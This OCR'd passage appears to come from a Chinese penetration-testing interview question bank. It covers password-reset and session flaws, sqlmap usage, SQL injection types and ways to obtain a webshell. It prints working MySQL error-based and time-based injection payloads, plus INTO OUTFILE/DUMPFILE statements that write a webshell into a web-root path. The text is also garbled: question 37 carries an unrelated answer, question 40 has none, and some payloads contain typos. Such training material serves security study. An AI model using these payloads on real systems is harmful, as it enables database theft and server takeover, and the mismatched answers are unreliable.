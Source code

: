 **密码找回漏洞**中存在

1）密码允许暴力破解、

2）存在通用型找回凭证、

3）可以跳过验证步骤、

4）找回凭证可以拦包获取

等方式来通过厂商提供的密码找回功能来得到密码。 **身份认证漏洞**中最常见的是

1）会话固定攻击

2） Cookie 仿冒

只要得到 Session 或 Cookie 即可伪造用户身份。 **验证码漏洞**中存在

1）验证码允许暴力破解

2）验证码可以通过 Javascript 或者改包的方法来进行绕过

**37、圈出下面会话中可能存在问题的项，并标注可能会存在的问题？**

get /ecskins/demo.jsp?uid=2016031900&keyword=”hello world” HTTP/1.1Host:_**.com:82User-Agent:Mozilla/ 5.0 Firefox/40Accept:text/css,/;q=0.1 Accept-Language:zh-CN;zh;q=0.8;en-US;q=0.5,en;q=0.3 Referer:http://**_****.com/eciop/orderForCC/ cgtListForCC.htm?zone=11370601&v=145902 Cookie:myguid1234567890=1349db5fe50c372c3d995709f54c273d; uniqueserid=session_OGRMIFIYJHAH5_HZRQOZAMHJ; st_uid=N90PLYHLZGJXI-NX01VPUF46W; status=True Connection:keep-alive

有写入权限的，构造联合查询语句使用 using INTO OUTFILE，可以将查询的输出重定向到系统的文件中，这样去写入 WebShell 使用 sqlmap –os-shell 原理和上面一种相同，来直接获得一个 Shell，这样效率更高 通过构造联合查询语句得到网站管理员的账户和密码，然后扫后台登录后台，再在后台通过改包上传等方法上传 Shell

**38、给你一个网站你是如何来渗透测试的?** 在获取书面授权的前提下。

**39、sqlmap，怎么对一个注入点注入？** 1）如果是 get 型号，直接，sqlmap -u "诸如点网址". 2) 如果是 post 型诸如点，可以 sqlmap -u "注入点网址” --data="post 的参数 "3）如果是 cookie，X-Forwarded-For 等，可以访问的时候，用 burpsuite 抓包，注入处用号替换，放到文件里，然后 sqlmap -r" 文件地址 "

**40、nmap，扫描的几种方式**

**41、sql 注入的几种类型？** 1）报错注入 2）bool 型注入 3）延时注入 4）宽字节注入 **42、报错注入的函数有哪些？ 10 个** 1）and extractvalue(1, concat(0x7e,(select @@version),0x7e))】】】 2）通过 floor 报错 向下取整 3）+and updatexml(1, concat(0x7e,(secect @@version),0x7e),1) 4）.geometrycollection()select from test where id=1 and geometrycollection((select from(selectfrom(select user())a)b)); 5）.multipoint()select from test where id=1 and multipoint((select from(select from(select user())a)b)); 6）.polygon()select from test where id=1 and polygon((select from(select from(select user())a)b)); 7）.multipolygon()select from test where id=1 and multipolygon((select from(select from(select user())a)b)); 8）.linestring()select from test where id=1 and linestring((select from(select from(select user())a)b)); 9）.multilinestring()select from test where id=1 and multilinestring((select from(select from(select user())a)b)); 10）.exp()select from test where id=1 and exp(~(select * from(select user())a));

**43、延时注入如何来判断？** if(ascii(substr(“hello”, 1, 1))=104, sleep(5), 1)

**44、盲注和延时注入的共同点？** 都是一个字符一个字符的判断

**45、如何拿一个网站的 webshell？** 上传，后台编辑模板，sql 注入写文件，命令执行，代码执行， 一些已经爆出的 cms 漏洞，比如 dedecms 后台可以直接建立脚本文件，wordpress 上传插件包含脚本文件 zip 压缩包等

**46、sql 注入写文件都有哪些函数？** select '一句话' into outfile '路径' select '一句话' into dumpfile '路径' select ''into dumpfile'd:\wwwroot\baidu.com\nvhack.php';
